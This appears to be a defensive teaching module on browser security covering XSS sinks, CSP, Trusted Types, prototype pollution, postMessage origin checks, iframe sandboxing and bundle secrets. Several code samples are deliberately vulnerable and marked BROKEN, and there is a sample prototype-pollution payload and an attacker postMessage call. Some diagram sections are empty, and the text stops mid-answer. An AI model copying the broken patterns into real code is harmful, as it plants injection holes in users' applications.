





# Browser Security and the Client Threat Model

---

## 1. Concept Overview

Server-side security has a comfortable property: you own the machine. You choose the
runtime, you read the logs, and nothing between your process and the database is under
anyone else's control. None of that is true in a browser. Your code runs on a machine the
attacker may own, next to scripts you did not write, inside a page someone else may be
framing, with the user's ambient credentials attached to every request.

This module covers the attack classes that live entirely on that side of the wire.
[`../../backend/backend_security_owasp/backend_security_owasp.md`](../../backend/backend_security_owasp/backend_security_owasp.md)
owns the server half of OWASP; the origin model, CORS, cookies, `SameSite` and CSRF belong to
[`../cors_cookies_and_the_same_origin_model/cors_cookies_and_the_same_origin_model.md`](../cors_cookies_and_the_same_origin_model/cors_cookies_and_the_same_origin_model.md),
and token storage, OAuth 2.1 with PKCE and WebAuthn to
[`../auth_in_the_browser/auth_in_the_browser.md`](../auth_in_the_browser/auth_in_the_browser.md).
What is left is what goes wrong *inside* the document: cross-site scripting and the DOM sinks
that cause it, Content Security Policy and its bypasses, prototype pollution, `postMessage`
and iframe sandboxing, third-party scripts running with your privileges, and configuration
that was never a secret.

The through-line is one question a reviewer should be able to answer for any line of
front-end code: **if the attacker controlled this string, what would it become?** A text node,
harmless. An HTML fragment, an XSS. An object key, a prototype pollution.

---

## 2. Intuition

> Everything you ship to the browser is a suggestion. The only thing you can enforce is
> what happens on your server when the request arrives.

**Mental model.** The page is a room where you are one of several parties holding a
microphone. Your bundle holds one; so does every npm dependency, the analytics tag, the A/B
script and whatever marketing added through the tag manager. All are wired to the same
amplifier — the same DOM, cookie jar and credentialed `fetch`. There is no privilege
separation inside an origin.

**Why it matters.** One XSS is total, because the injected script is indistinguishable from
yours, and one compromised CDN script is total for the same reason. A defence that runs in the
room — a disabled button, a regex, a hidden field — is controlled by everyone in the room.

**Key insight.** Browser security is not about preventing an attacker from *sending* things.
It is about ensuring a string crossing from data into code passes through exactly one narrow,
auditable gate. Escaping, sanitization, Trusted Types, CSP, SRI and origin checks are all
different ways of building or enforcing that gate.

---

## 3. Core Principles

1. **The client is attacker-controlled territory.** DevTools, a proxy and a patched browser
   are available to any user, so **client-side validation is a UX feature and never a
   security control** — it makes the good path pleasant and stops nothing.
2. **Same-origin means same privilege.** An `npm` package, a CDN tag and an inline analytics
   snippet all have `document.cookie`, `localStorage` and authenticated `fetch`.
3. **A sink is where data becomes code.** Escaping is contextual: what is safe in a text node
   is dangerous in an attribute, and what is safe in an attribute is dangerous in a URL.
4. **Escape by default, sanitize by exception.** Sanitization is a deliberate opt-out for the
   one case where the output genuinely must be HTML.
5. **Defence in depth means the second layer assumes the first failed.** CSP exists for the
   day escaping breaks; it is not a licence to skip escaping.
6. **Every inbound message is untrusted until its origin is checked** — `postMessage`,
   `window.name`, the URL fragment, `localStorage` written by another tab.
7. **A client bundle has no secrets.** Anything inlined at build time, in a source map or
   reachable in a network response is published, not configured.

---

## 4. Types / Architectures / Strategies

### 4.1 What the attacker can and cannot do

| The attacker CAN | The attacker CANNOT (by this alone) |
|------------------|-------------------------------------|
| Read and rewrite every byte of your bundle | Read a response your origin is not allowed to read |
| Call any endpoint with any payload, bypassing the UI | Forge a signature they do not have the key for |
| Run a patched build with checks removed | Break TLS between the browser and your server |
| Get a script of theirs into your page (XSS, supply chain) | Read another origin's DOM without a same-origin bug |

The right column is short, and every entry in it depends on a browser invariant holding.

### 4.2 XSS by where the payload lives

| Type | Where the payload is stored | Where it becomes code | Tell |
|------|----------------------------|----------------------|------|
| Reflected | nowhere — in the request | server template renders it into the response | needs a crafted link per victim |
| Stored | your database | rendered for every viewer | one injection, many victims; the worst blast radius |
| DOM-based | nowhere on the server | client JS reads a source and writes a sink | the payload can sit in `#fragment` and never reach the server |

DOM-based XSS is the one server logs cannot see: a payload after `#` is never transmitted.

### 4.3 The sinks worth memorising

| Sink | Safe alternative |
|------|-----------------|
| `innerHTML` / `outerHTML` / `insertAdjacentHTML` | `textContent`, `insertAdjacentText` |
| `document.write` / `writeln` | build nodes |
| `eval` / `new Function` / string-bodied `setTimeout` | `JSON.parse`, pass a function |
| `a.href = "javascript:..."` | parse the URL, check the scheme |
| `script.src`, `iframe.src`, `iframe.srcdoc` | allowlist the URL, sanitize the markup |
| `dangerouslySetInnerHTML`, `setAttribute("onclick", ...)` | text children, `addEventListener` |

---

## 5. Architecture Diagrams

### Who holds a microphone in your page



There is no boundary inside the box: every arrow carries identical privilege.

### Source to sink — the shape of every XSS



Auditing for XSS is auditing this picture: enumerate the sinks, trace back to the sources,
confirm a gate sits between them.

### Why a nonce beats an allowlist



An allowlisted host vouches for every file it has ever served, so one legacy AngularJS build
or JSONP endpoint on it turns the allowlist into `unsafe-inline` with extra steps.

### The two-way `postMessage` failure



Receiving without an origin check accepts commands from anyone who can reach the frame;
sending with `"*"` hands the payload to whatever document occupies the target.

### A prototype pollution gadget chain

```mermaid
flowchart LR
    q(["Query string<br/>or JSON body"]) --> merge(["Recursive merge<br/>or query parser"])
    merge --> proto(["Writes Object.prototype"])
    proto --> every(["Every plain object<br/>gains the property"])
    every --> read(["Some component reads<br/>an unset option"])
    read --> sinkp(["Value reaches<br/>a DOM sink"])
    sinkp --> exec(["Script executes"])
    classDef src  fill:#2c313a,stroke:#61afef,color:#abb2bf
    classDef mid  fill:#2c313a,stroke:#c678dd,color:#abb2bf
    classDef bad  fill:#2c313a,stroke:#e06c75,color:#abb2bf
    class q src
    class merge,proto,every,read mid
    class sinkp,exec bad
```



Pollution and exploitation live in different packages, which is why this class survives
review: neither file looks wrong on its own.

### Third-party script trust, in one picture



---

## 6. How It Works — Detailed Mechanics

### 6.1 The client is not a trust boundary

Every guard in the bundle is advisory. The reviewer's test is whether deleting the client
entirely still leaves the rule enforced.

```ts
// BROKEN: the only enforcement is in the browser.
// Any user can call the endpoint directly with role "admin" and amount 0.
function submitOrder(form: OrderForm) {
  if (form.amount <= 0) return showError("Amount must be positive");
  if (currentUser.role !== "admin") return;          // "hidden" admin path
  return fetch("/api/orders", { method: "POST", body: JSON.stringify(form) });
}

// FIX: keep both checks for UX. The server revalidates amount, re-derives the
// role from the session, and never trusts a role or price sent in the body.
```

The same reasoning kills a price sent from the client and an `isAdmin: true` flag in a body.
If a feature flag gates data, the API withholds the data; the UI hiding it is decoration.

### 6.2 The sinks, concretely

```js
const untrusted = new URLSearchParams(location.search).get("name");

// BROKEN: four different ways to execute an attacker's string
el.innerHTML = `<span>${untrusted}</span>`;        // markup, including onerror handlers
document.write(untrusted);                          // same, during parse
setTimeout("render('" + untrusted + "')", 0);       // string body is eval
link.href = untrusted;                              // javascript: is a valid scheme

// FIX: choose the API whose contract is "this is data"
el.textContent = untrusted;
setTimeout(() => render(untrusted), 0);
const u = new URL(untrusted, location.origin);
link.href = ["http:", "https:"].includes(u.protocol) ? u.href : "#";
```

`textContent` creates a text node, so `` renders as 20 visible characters
rather than a request. Parse URLs rather than pattern-matching them:
`startsWith("https://api.example")` passes for `https://api.example.evil.test`.

### 6.3 Where React escapes, and where it does not

React escapes every string interpolated as a child or an ordinary attribute value, so React
XSS is almost always in one of the five places it deliberately steps aside.

```tsx
<div>{userInput}</div>                                    {/* safe: text node */}
<div dangerouslySetInnerHTML={{ __html: userInput }} />    {/* the documented opt-out */}
<a href={userInput}>Profile</a>                            {/* no scheme validation */}
<script src={userInput} />                                 {/* attacker-chosen source */}
<iframe srcDoc={userInput} />                              {/* child document markup */}
```

Server Functions add a server-side surface — each is a public POST endpoint that must
authorize every call — in
[`../../react/server_components_and_server_functions/server_components_and_server_functions.md`](../../react/server_components_and_server_functions/server_components_and_server_functions.md).

### 6.4 Sanitization when the output really is HTML

Rich-text editors, CMS bodies and Markdown renderers produce HTML by requirement. Escaping
would show the tags, so the answer is to parse the markup and remove what is dangerous.

```ts
import DOMPurify from "dompurify";

// Parses into a detached document, walks it, and drops disallowed
// nodes, attributes and URL schemes. Returns markup, not text.
el.innerHTML = DOMPurify.sanitize(untrustedHtml, {
  ALLOWED_TAGS: ["p", "br", "strong", "em", "ul", "ol", "li", "a", "code", "pre"],
  ALLOWED_ATTR: ["href", "title"],
  ALLOWED_URI_REGEXP: /^(?:https?|mailto):/i,
});
```

Sanitize **once, at render time**, never on save: a value cleaned by an old configuration and
stored can never be re-audited, while sanitizing at render means a library upgrade protects
existing rows retroactively. Allowlist, never denylist. And never edit the string afterwards —
mutation-XSS depends on the parser and the serializer disagreeing about the same bytes.

### 6.5 Trusted Types: making the sink itself refuse a string

Sanitization is only as good as the discipline of calling it. Trusted Types moves the
enforcement into the DOM: once required, `innerHTML` and friends throw on a plain string.

```ts
// Declared once at startup. Every string reaching a DOM sink comes through here.
const policy = trustedTypes.createPolicy("app-html", {
  createHTML: (input: string) => DOMPurify.sanitize(input),
});

el.innerHTML = policy.createHTML(untrustedHtml);   // allowed
el.innerHTML = untrustedHtml;                       // throws
```

With `require-trusted-types-for 'script'; trusted-types app-html` in the policy, an unguarded
assignment fails loudly instead of silently succeeding:

```
Uncaught TypeError: Failed to set the 'innerHTML' property on 'Element':
This document requires 'TrustedHTML' assignment.
```

The audit changes shape, from "every sink" to "every policy". Roll it out in Report-Only
first, because every third-party script that touches the DOM will violate it. Firefox does not
implement Trusted Types, so it is Chromium hardening on top of a sanitizer, not instead of one.

### 6.6 CSP that is worth having

```
Content-Security-Policy:
  script-src 'nonce-r4nd0mPerResponse' 'strict-dynamic' 'unsafe-inline' https:;
  object-src 'none'; base-uri 'none'; frame-ancestors 'self';
  require-trusted-types-for 'script'; report-uri /csp-report
```

| Token | Why it is there |
|-------|----------------|
| `'nonce-...'` | fresh per response from a CSRF-grade random source, so an injected tag cannot carry it and the HTML cannot be a cached static file |
| `'strict-dynamic'` | a script loaded by a nonced script inherits trust, so bundlers keep working without a host allowlist; `'unsafe-inline' https:` are inert fallbacks for browsers that ignore nonces |
| `object-src 'none'` and `base-uri 'none'` | `<object>` and `<embed>` execute outside `script-src`, and an injected `<base href>` retargets every relative script URL |
| `frame-ancestors 'self'` | the clickjacking control; supersedes `X-Frame-Options`, takes a list, applies at every nesting level |

A blocked inline script reports `Refused to execute inline script because it violates the
following Content Security Policy directive`, naming the directive that rejected it.

**The honest limit.** CSP does not stop XSS; it constrains what an XSS can do. An injected
script blocked from loading an external file can still read the DOM and exfiltrate through a
permitted channel. It is the layer that assumes escaping failed, not a replacement for it.

### 6.7 Prototype pollution

JavaScript resolves a missing property up the prototype chain. Write to `Object.prototype`
once and every plain object in the page answers that lookup.

```js
// BROKEN: a recursive merge that copies any key the source has
function merge(target, source) {
  for (const key in source) {
    target[key] = (typeof source[key] === "object" && source[key] !== null)
      ? merge(target[key] ?? {}, source[key])
      : source[key];
  }
  return target;
}
// Attacker JSON: {"__proto__": {"template": ""}}
// Afterwards ({}).template is the attacker's markup, everywhere in the page.

// The gadget usually lives in another package: a component filling in an unset option.
const html = options.template || DEFAULT_TEMPLATE;   // now attacker-controlled
container.innerHTML = html;                          // gadget reaches the sink
```

Neither function is wrong in isolation, which is why this class survives review. Four fixes,
any one of which closes the write side:

```js
// FIX 1: refuse the three dangerous keys, and copy only own properties
const BLOCKED = new Set(["__proto__", "constructor", "prototype"]);
for (const key of Object.keys(source)) { if (BLOCKED.has(key)) continue; /* ... */ }

// FIX 2 and 3: a prototype-less object or a Map has nothing to pollute
const lookup = Object.create(null);
const cache = new Map();

// FIX 4: at startup, after testing for breakage
Object.freeze(Object.prototype);
```

Other sources: query-string parsers that build nested objects from `a[b]=c`, and
`structuredClone` of untrusted data into a config object. Node 22 and later accept
`--disable-proto=throw`, worth setting on any server-rendering process.

### 6.8 `postMessage`, sandboxing and cross-origin isolation

`postMessage` belongs here too: `e.origin` is browser-set and unforgeable while anything in
`e.data` is not, so compare it with `===` against a constant (`endsWith("example.com")` matches
`https://evil-example.com`), then check `e.source`, then the shape — the BROKEN/FIX pair is §10
Pitfall 1. On send, `postMessage(payload, "*")` hands the payload to whatever document occupies
the target, so name the origin for anything private.

```html
<!-- Scripts run, but in an opaque origin: no cookies, no localStorage,
     no DOM access to the parent, no form submission. -->
<iframe src="https://untrusted.example/widget" sandbox="allow-scripts allow-forms"></iframe>

<!-- BROKEN: allow-scripts plus allow-same-origin lets the frame reach its own
     origin, find its own iframe element, and remove the sandbox attribute. -->
<iframe src="/renderer" sandbox="allow-scripts allow-same-origin"></iframe>
```

Tokens are additive: `sandbox=""` denies everything, and `allow-scripts`, `allow-forms`,
`allow-popups`, `allow-modals`, `allow-downloads` and `allow-top-navigation-by-user-activation`
each grant one capability back. The broken pair is safe only for a document you fully trust,
which is a document that did not need a sandbox.

**Cross-origin isolation** is a different control: `Cross-Origin-Opener-Policy: same-origin`
severs `window.opener` links with cross-origin documents and
`Cross-Origin-Embedder-Policy: require-corp` forces every subresource to opt in via CORS or
`Cross-Origin-Resource-Policy`. Once `crossOriginIsolated` is `true`, `SharedArrayBuffer` is
re-enabled and `performance.now()` goes from a clamped 100 microseconds to 5 — the price of
admission for WebAssembly threads, and it breaks embeds that lack `CORP`.

### 6.9 Supply chain, from the page's point of view

Subresource Integrity pins one file by hash: the browser fetches, hashes, compares, and
refuses to execute on a mismatch, logging `Failed to find a valid digest in the 'integrity'
attribute for resource ... The resource has been blocked.`

```html
<script
  src="https://cdn.example/chart-4.2.1.min.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
  crossorigin="anonymous"></script>
```

**SRI only works for a file that never changes.** A tag manager or a "latest" loader serves new
bytes by design, so pinning it breaks on the vendor's next release. Those need a strict CSP so
the script cannot pull further arbitrary code, a `connect-src` naming the only permitted
destinations, a sandboxed frame, or self-hosting so you own the cadence.

Dependency confusion and typosquatting belong to
[`../package_management_and_supply_chain/package_management_and_supply_chain.md`](../package_management_and_supply_chain/package_management_and_supply_chain.md);
the consequence here is that a malicious transitive dependency reaches the bundle and, from
the page's perspective, is your code. The Magecart pattern is that at its most concrete: a
script on a checkout page reads card fields on submit and beacons them out while the payment
completes normally. Checkout defences are in
[`../../react/case_studies/design_a_checkout_and_payment_flow.md`](../../react/case_studies/design_a_checkout_and_payment_flow.md).

### 6.10 There are no secrets in a bundle

```ts
// Vite exposes only VITE_-prefixed variables, Next.js only NEXT_PUBLIC_-prefixed ones,
// and both are replaced with string literals in the build output.
const analyticsId = process.env.NEXT_PUBLIC_ANALYTICS_ID;   // fine: publishable

// BROKEN: adding the prefix to make a value "work" in a component
const stripeSecret = process.env.NEXT_PUBLIC_STRIPE_SECRET_KEY;

// FIX: the operation moves to the server; the client calls an endpoint
const res = await fetch("/api/payment-intent", { method: "POST" });
```

The prefix is a **declaration that the value is public**, not a protection, and adding it to
silence an `undefined` is how production keys ship. Quieter leak paths: a publicly served
source map exposes inlined constants, a `.env` copied into a static image is readable at
`/.env`, and a build-time value passed into a server-rendered payload is still in the HTML.
Catch it in CI, and rotate rather than delete — a shipped key is public from the deploy:

```
gitleaks detect --source ./dist --no-git --exit-code 1
```

### 6.11 The rest of the surface

**Clickjacking** frames your page, overlays an invisible element, and turns a click into a real
action in the user's authenticated session. `frame-ancestors` is the control, and it must be a
real response header — it is ignored inside a `<meta>` tag.

**Reverse tabnabbing.** A page opened with `target="_blank"` receives a `window.opener`
reference and can navigate the original tab to a lookalike login page. Modern browsers set
`noopener` implicitly for `target="_blank"`, but `window.open()` still returns a live
reference unless you pass `noopener`.

**Open redirects** lend your domain's reputation to a phishing page and, in an OAuth flow, can
carry a code off-site.

```ts
// BROKEN: accepts any absolute URL, including a scheme-relative //evil.test
location.assign(params.get("next") ?? "/");

// FIX: resolve against your own origin and require it to still match
const next = new URL(params.get("next") ?? "/", location.origin);
location.assign(next.origin === location.origin ? next.href : "/");
```

| Header | Buys |
|--------|------|
| `Content-Security-Policy` | injection containment, framing control, Trusted Types enforcement |
| `Strict-Transport-Security: max-age=31536000; includeSubDomains` | no downgrade to HTTP after the first visit |
| `Referrer-Policy: strict-origin-when-cross-origin` | full path stays internal; only the origin leaves cross-site |
| `Permissions-Policy: camera=(), microphone=(), geolocation=()` | a compromised script cannot silently request hardware |

A page whose URL carries a reset token or an internal id should tighten `Referrer-Policy` to
`no-referrer` outright.

---

## 7. Real-World Examples

**The Markdown preview that trusted its own renderer.** A documentation tool rendered
user-submitted Markdown to HTML and assigned it with `innerHTML`. The library escaped tags but
permitted raw links, so `[click](javascript:...)` produced an anchor that executed on click.

**The allowlist that allowed everything.** A team locked `script-src` to `'self'` plus their
CDN and considered CSP done. The CDN also hosted a 2016 AngularJS build for one legacy page,
so an injected `<script src="https://cdn.example/angular.min.js">` plus a template expression
gave full script execution inside a policy the security review had passed. They moved to
nonces plus `'strict-dynamic'`, at which point what the CDN hosted stopped mattering.

---

## 8. Tradeoffs

| Choice | Gains | Costs | Use when |
|--------|-------|-------|---------|
| Escape everything, render no HTML | no XSS surface from content | cannot support rich text | most product surfaces |
| Sanitize with DOMPurify | rich text works | one configuration to audit; sanitizer CVEs | CMS, editors, Markdown |
| CSP nonce plus `strict-dynamic` | injection cannot execute | per-response nonce means the HTML cannot be a static cached file | any server-rendered app |
| `sandbox` iframe for untrusted UI | real privilege separation | `postMessage` plumbing for everything | embeds, plugin systems, previews |

---

## 9. When to Use / When NOT to Use

### Reach for sanitization when

- The output must remain HTML — a rich-text field, a Markdown body, a CMS fragment — and you
  sanitize at render, in the browser, with an allowlist you can point at in review.

### Reach for a nonce-based CSP when

- The HTML is generated per response, so a fresh nonce is free, and you want a second layer
  that assumes escaping failed plus `frame-ancestors` in the same header.

### Do NOT

- **Do not enforce anything in the client.** A check the server does not repeat is not a
  check. This includes prices, roles, quotas and rate limits.
- **Do not put a secret behind a public prefix.** `NEXT_PUBLIC_` and `VITE_` mean published.
- **Do not use `dangerouslySetInnerHTML` with a value that ever touched user input**,
  including one that "came from our own API" — the API stores what users sent it.
- **Do not skip the sandbox** for markup, code or a plugin you did not write.
- **Do not check an origin with `startsWith`, `endsWith` or `includes`.** `===` against a
  constant, every time.
- **Do not add `allow-same-origin` next to `allow-scripts`** on a frame you do not fully
  trust. The frame can then remove its own sandbox.

---

## 10. Common Pitfalls

### Pitfall 1: a `postMessage` handler with no origin check

```ts
// BROKEN: any page that opens or frames you can drive this handler.
// An attacker page calls win.postMessage({type:"setToken", value:"..."}, "*")
// and your app stores an attacker-chosen session.
window.addEventListener("message", (e) => {
  if (e.data?.type === "setToken") saveToken(e.data.value);
});

// FIX: the origin is the authentication. Check it first, then the sender,
// then the shape. Nothing inside e.data may be trusted before all three pass.
window.addEventListener("message", (e) => {
  if (e.origin !== "https://auth.example") return;
  if (e.source !== authFrame.contentWindow) return;
  if (e.data?.type !== "setToken" || typeof e.data.value !== "string") return;
  saveToken(e.data.value);
});
```

This is the most common browser-security defect in review: the handler works perfectly in
every test, because the tests all send messages from the right place.

### Pitfall 2: `unsafe-inline` added to make the site work

A CSP rollout breaks inline scripts and the fastest fix is `'unsafe-inline'` in `script-src`,
which disables the entire injection defence — an injected inline script is exactly what it
permits. Move inline scripts to files or nonce them; if the deadline wins, ship
`Content-Security-Policy-Report-Only`, which blocks nothing and still reports.

### Pitfall 3: assuming DOM-based XSS shows up in server logs

A payload in the URL fragment is never transmitted, so no WAF rule, access log or
server-side test will see it — which is why DOM XSS survives server-focused audits. Find it by
tracing sinks in the client code, and with a scanner that executes JavaScript.

---

## 11. Technologies & Tools

| Tool | What it is for | How you invoke it |
|------|---------------|-------------------|
| Content Security Policy | Constraining what an injection can execute | response header |
| Trusted Types | Making DOM sinks reject unreviewed strings | `require-trusted-types-for 'script'` |
| DOMPurify | Allowlist HTML sanitization in the browser | `DOMPurify.sanitize(html, opts)` |
| Subresource Integrity | Pinning a third-party file by hash | `integrity` attribute |
| CSP Evaluator | Grading a policy and naming its bypasses | paste the header at the Google tool |
| OWASP ZAP | Active scanning including DOM XSS | proxy plus AJAX spider |
| Burp Suite | Manual request tampering and repeater | intercepting proxy |
| gitleaks | Finding secrets in build output and history | `gitleaks detect --source ./dist` |
| Socket | Behavioural review of package installs | CI check on pull requests |

---

## 12. Interview Questions with Answers

**Q: Why is client-side validation not a security control?**
**Short:** Every check running in the user's browser is code the attacker owns and can delete, so it improves the experience and enforces nothing.

DevTools, an intercepting proxy or a plain `curl` reaches the same endpoint with any payload,
so a disabled button, a `maxlength` and a hidden `isAdmin` field are all advisory. The server
must revalidate every field, re-derive permissions from the session rather than the request
body, and never accept a price or a role the client sent. Keep the client checks for feedback.

**Q: What is the difference between reflected, stored and DOM-based XSS?**
**Short:** Reflected and stored differ by where the payload is kept before rendering, while DOM-based XSS never reaches the server at all.

Reflected XSS lives in the request — a crafted link puts the payload in the query string and
the server echoes it back, so it needs one victim per link. Stored XSS is persisted in your
database and served to every viewer, the worst blast radius. DOM-based XSS happens entirely in
the browser, so no WAF, access log or server-side test can ever observe the payload.

**Q: Why is a CSP host allowlist weaker than a nonce?**
**Short:** An allowlisted host vouches for every file it has ever served, so one stale library or open endpoint on that host defeats the whole policy.

`script-src 'self' https://cdn.example` permits any script on that CDN, including an old
AngularJS build whose template expressions give arbitrary execution, or a JSONP endpoint that
reflects a callback into JavaScript. A per-response nonce moves the decision from "which host"
to "which tag my server emitted", and an injected tag cannot carry it. Add `'strict-dynamic'`.

**Q: What does checking `event.origin` in a `postMessage` handler prevent?**
**Short:** Checking event.origin stops any page that can reach your window from feeding it messages your handler treats as coming from a trusted peer.

Any document that opened or frames your window holds a reference and can call `postMessage`,
so a handler acting on `e.data.type` will accept commands — set a token, navigate, expose data
— from an attacker's page. `e.origin` is browser-set and unforgeable, unlike anything in
`e.data`. Compare with `===`: `endsWith("example.com")` matches `evil-example.com`.

**Q: React escapes by default, so where can XSS still happen in a React app?**
**Short:** React escapes text children and normal attribute values but not dangerouslySetInnerHTML, a URL scheme in href, a script src, or an iframe srcDoc.

Interpolating a string as a child produces a text node, which is why most React code is safe
without thought. The exceptions are where React steps aside: `dangerouslySetInnerHTML` by
design, `href={userInput}` because React does not validate schemes, `<script src={userInput} />`,
and `srcDoc`, whose markup belongs to a child document. Audit those five patterns.

**Q: What is prototype pollution and how does it become XSS?**
**Short:** Writing to __proto__ mutates the shared prototype, so every plain object in the page gains a property that some unrelated component later reads as configuration.

A recursive merge or nested query-string parser that copies a `__proto__` key writes onto
`Object.prototype`, after which `({}).template` returns the attacker's value everywhere. The
gadget is usually in another package: `options.template || DEFAULT` now feeds `innerHTML`.
Reject `__proto__`, `constructor` and `prototype`, copy own properties only, and use `Map`.

**Q: Does a good CSP mean you can stop escaping output?**
**Short:** No — CSP limits what an injection can do after it lands, so it reduces impact rather than removing the cause.

An injected script blocked from loading an external file can still read the DOM, read
`localStorage` and exfiltrate through any permitted channel — a navigation, a form post, or
your own reporting endpoint. Policies also degrade as directives are relaxed to unblock a
feature, and one `'unsafe-inline'` disables the defence. Escape, sanitize, then add CSP.

**Q: Why is `allow-scripts` together with `allow-same-origin` dangerous on a sandboxed iframe?**
**Short:** Together they let the framed document reach into its own origin, find its own iframe element, and remove the sandbox attribute.

`sandbox` normally puts the document in an opaque origin with no cookies, no storage and no
DOM access to the parent; `allow-same-origin` restores the real origin and `allow-scripts`
gives it code. If the frame is same-origin with the parent, that code walks up to
`window.parent.document`, clears the `sandbox` attribute and reloads.

**Q: What does Trusted Types enforce that a sanitizer alone does not?**
**Short:** The DOM sinks themselves refuse plain strings once it is required, so an unguarded assignment throws instead of silently succeeding.

A sanitizer only helps where someone remembered to call it. With
`require-trusted-types-for 'script'`, assigning a string to `innerHTML` raises
`TypeError: This document requires 'TrustedHTML' assignment`, and the only way through is a
named policy. Firefox does not implement it, so keep the sanitizer as the portable layer.

**Q: Why does Subresource Integrity not work for a tag manager or analytics loader?**
**Short:** Subresource Integrity pins one exact byte sequence, so a script the vendor intends to update fails the check on its first legitimate release.

